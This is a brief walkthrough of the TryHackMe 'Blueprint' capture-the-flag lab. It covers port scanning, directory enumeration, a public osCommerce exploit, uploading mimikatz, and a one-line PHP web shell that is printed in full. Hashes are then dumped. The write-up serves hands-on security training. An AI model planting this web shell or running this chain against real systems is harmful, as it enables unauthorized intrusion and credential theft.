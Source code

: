 # 8 - Blueprint

Room Link --> [https://tryhackme.com/room/blueprint](https://tryhackme.com/room/blueprint)

Nmap Results:

{% code overflow="wrap" lineNumbers="true" %}
```bash
PORT      STATE SERVICE      VERSION
80/tcp    open  http         Microsoft IIS httpd 7.5
135/tcp   open  msrpc        Microsoft Windows RPC
139/tcp   open  netbios-ssn  Microsoft Windows netbios-ssn
443/tcp   open  ssl/http     Apache httpd 2.4.23 (OpenSSL/1.0.2h PHP/5.6.28)
445/tcp   open  microsoft-ds Microsoft Windows 7 - 10 microsoft-ds (workgroup: WORKGROUP)
3306/tcp  open  mysql        MariaDB (unauthorized)
8080/tcp  open  http         Apache httpd 2.4.23 (OpenSSL/1.0.2h PHP/5.6.28)
49152/tcp open  msrpc        Microsoft Windows RPC
49153/tcp open  msrpc        Microsoft Windows RPC
49154/tcp open  msrpc        Microsoft Windows RPC
49160/tcp open  msrpc        Microsoft Windows RPC
Service Info: Hosts: www.example.com, BLUEPRINT, localhost; OS: Windows; CPE: cpe:/o:microsoft:windows
```
{% endcode %}

All are dead-ends, except the port 8080.

`gobuster dir -u http://10.10.138.195:8080/ -x php,html,txt,aspx,asp -t 15 -q -w /usr/share/wordlists/dirb/common.txt` - dir search.

Search exploit-db.com for known exploits for "oscommerce", i used this one --> [https://www.exploit-db.com/exploits/44374](https://www.exploit-db.com/exploits/44374)

Edit the content of the script:

<figure><img src=".gitbook/assets/image (10) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1).png" alt=""><figcaption><p>1</p></figcaption></figure>

used it to upload mimikatz, and a php web cmd shell:&#x20;

{% code title="shell.php" %}
```php
# to execute cmds from the webpage directly
<?php echo shell_exec($_GET["cmd"]); ?>
```
{% endcode %}

Use Mimikatz to dump the hashes and read the root flag.

<figure><img src=".gitbook/assets/image (1) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1).png" alt=""><figcaption><p>2</p></figcaption></figure>

